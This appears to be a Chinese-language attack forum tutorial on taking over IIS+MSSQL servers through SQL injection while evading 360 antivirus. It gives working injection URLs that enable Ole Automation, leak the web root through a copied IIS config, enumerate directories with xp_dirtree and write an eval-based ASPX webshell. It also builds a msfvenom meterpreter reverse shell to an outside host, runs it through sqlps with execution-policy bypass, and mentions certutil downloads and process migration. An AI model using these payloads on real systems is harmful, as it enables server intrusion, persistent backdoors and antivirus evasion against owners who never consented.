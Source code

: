 0x01 废话
=======

有时候mssql注入会碰到-os-shell执行不了命令的情况，有可能是因为权限不够不能开启xp\_cmdshell，还有可能就是杀软拦截了

常见的只有360会拦截，如果被拦截了就是下面这样的

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b4d91dc5d8afb78a51bfd2b06926163c3a8925ad.png)

0x02 拦截原因
=========

这里用上x64dbg在CreateProcessA和CreateProcessW打上断点

MSSQL调用的CreateProcessW

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-75047331dddc275031c97145738d9fcc5d73656c.png)

可以看到xp\_cmdshell是直接使用cmd /c来执行命令的

这拦截的原因和之前的php很相似

不过这里没有php那么高的操作空间

0x03 写webshell到网站根目录
====================

一般来说都是IIS+MSSQL的搭配，MSSQL可以用sp\_oacreate来执行一些读写功能，因为不调用cmd所以360不会拦截，前提是需要知道网站的根目录

如果权限够高可以直接将IIS配置文件404页面

首先要开启sp\_oacareate这个存储过程

```sql
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
```

然后用sp\_oacreate创建scripting.filesystemobject对象调用copyfile这个方法来实现复制文件

```sql
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\inetsrv\config\applicationHost.config' ,'C:\inetpub\custerr\zh-CN\404.htm';
```

这里的配置文件是IIS7的，路径是固定的，404的路径也是固定的，只要权限够高就可以复制过来

当然如果是国外语言路径可能会变化

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0325da614edf87ec50c19662fc60efd1d3d46ea9.png)

```php
http://192.168.159.128/index.aspx?user_id=1;
exec sp_configure 'show advanced options', 1;RECONFIGURE;
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
declare @o int;
exec sp_oacreate 'scripting.filesystemobject', @o out;
exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\inetsrv\config\applicationHost.config' ,'C:\inetpub\custerr\zh-CN\404.htm';
```

然后访问一个不存在的页面就可以找到网站根目录

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d4efdba65738de07dbd9e23a96cef00196576456.png)

权限低的话可以用xp\_dirtree来找就是有点慢

```php
http://192.168.159.128/index.aspx?user_id=1;
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```

先创建一个tmp表然后将xp\_dirtree的结果输出到tmp中

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-02e2771c3bc2e8dc6b729ab7fc7d83db720fb21b.png)

在网页中需要使用注入查表得到结果，如果直接查询可能会报错需要转换一下

```php
http://192.168.159.128/index.aspx?user_id=-1 union select null,null,(select top 1 convert(varchar(100),dir COLLATE Chinese_PRC_CI_AS) from FoundStone_Bank.dbo.tmp),null,null
```

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b0a8d997e7ffb6320017bf3da79d1e1c9511d402.png)

MSSQL和MYSQL不同没有LIMIT需要用where来过滤不想要的结果

```php
http://192.168.159.128/index.aspx?user_id=-1 union select null,null,(select top 1 convert(varchar(100),dir COLLATE Chinese_PRC_CI_AS)  from FoundStone_Bank.dbo.tmp WHERE DIR not in (SELECT TOP 1 dir FROM FoundStone_Bank.dbo.tmp)),null,null
```

类似这样，前面的top 1不用改，where中的top 从0开始增长就可以，sqlmap也是同种方式

虽然xp\_dirtree的方法繁琐但是还是可以有效的找到绝对路径，要么网站和数据库不在同个地方这就办法了

```sql
select host_name();             //主机名
select @@servername;            //服务器名
//如果相同则代表数据库和web在同一台机器上面
```

得到根目录后用Scripting.FileSystemObject中CreateTextFile和WriteLine来实现写入webshell

注意有拦截的话上面肯定有360webshell要免杀

```php
http://192.168.159.128/index.aspx?user_id=1;
declare @f int,@g int
exec sp_oacreate 'Scripting.FileSystemObject',@f output
EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\wwwroot\shell.aspx',1
EXEC sp_oamethod  @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a%2Bb));%>'
```

拿到shell了基本是IIS的用户，这里本来可以直接通过juicypotato提权

但是360不知道从什么时候开始加上了CrteateProcesWithToken的hook就提权不了了

整理了一下想着mssql本来就是高权限的，只要想办法用mssql来执行木马就可以了

0x03 权限提升
=========

说明一下只有mssql2005是直接高权限，这次的测试环境搭建的时候使用管理员启动的mssql，所以mssql实际的权限取决于网站管理员

在护网中也有碰到过用administrator起mssql的网站管理员，所以下面的方法就是提供一种思路

在网上搜索了一下发现用wscript.shell可以不调用cmd执行程序

```sql
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'calc';
```

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0ceb1bf8da8ee319427be4d6d2025a1e84a68dea.png)

可以看到在sqlserver的进程中启动了计算器

但是上传上去的木马，运行了就会提示某某程序在入侵sqlserver不让运行

经过多次测试后发现

1. 在系统目录中无害的程序是不杀的，像calc，ipconfig，tasklist这些，哪怕复制到别的路径来也不拦截
2. 有数字签名的

像cmd，powershell啥的在系统目录中但是也被杀的死死的

还有一个关键点，有数字签名的程序创建的进程要是不可信还是会被拦截，只要检测到父进程是sqlserver就会杀的特别四

那么需要找一个有数字签名的，可以直接加载到内存中的程序就可以上线了

在mssql的目录中看到了sqlps.exe有点眼熟，找了一下发现最近有篇文章就是关于sqlps的

[https://mp.weixin.qq.com/s?\_\_biz=MzU1NDkwMzAyMg%3D%3D&amp;mid=2247491483&amp;idx=1&amp;sn=5c43d9377fb5729104665e00040c2f36&amp;scene=21&amp;ref=www.ctfiot.com#wechat\_redirect](https://mp.weixin.qq.com/s?__biz=MzU1NDkwMzAyMg%3D%3D&mid=2247491483&idx=1&sn=5c43d9377fb5729104665e00040c2f36&scene=21&ref=www.ctfiot.com#wechat_redirect)

可以说是一个功能不全的powershell吧，但是可以直接执行ps1脚本，这样就不会创建进程导致被杀软拦截

```php
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.130.4.204 LPORT=60001 -f psh-reflection > shell.ps1
```

这里要用msf生成的脚本，cs生成会出现问题执行不了

将生成的脚本上传到服务器，上传的的方法有很多，可以用远程下载，也可以像webshell一样写入

远程下载只需要将Certutil.exe重命名，然后放到别的目录就可以了

![8.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e2d69b3e422d0d098e35857269d51c2731008884.png)

```php
http://192.168.159.128/index.aspx?user_id=1;
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'sqlps -ExecutionPolicy bypass -File c:\windows\temp\shell.ps1';
```

这样就上线了，但是到这里还是不能执行命令的，因为本质还是sqlserver下的进程

需要用migrate注入到别的进程内就可以执行命令了

0x04 总结
=======

sqlps直接执行是会被360拦截的，但是由sqlserver创建后执行就不拦截了

mssql是可以直接修改注册表启动项的，当然sqlps修改注册表也是不会被拦截的，这可能就是有签名的强大吧

因为2008操作空间有点小，如果有.net4.0可以用dotnet，csi这些直接将恶意代码加载进内存

总的来说需要一个有数字签名的程序可以直接加载进内存，如果有数字签名的程序可以直接执行dll，要么存在dll劫持的漏洞，也可以达到上线的目的的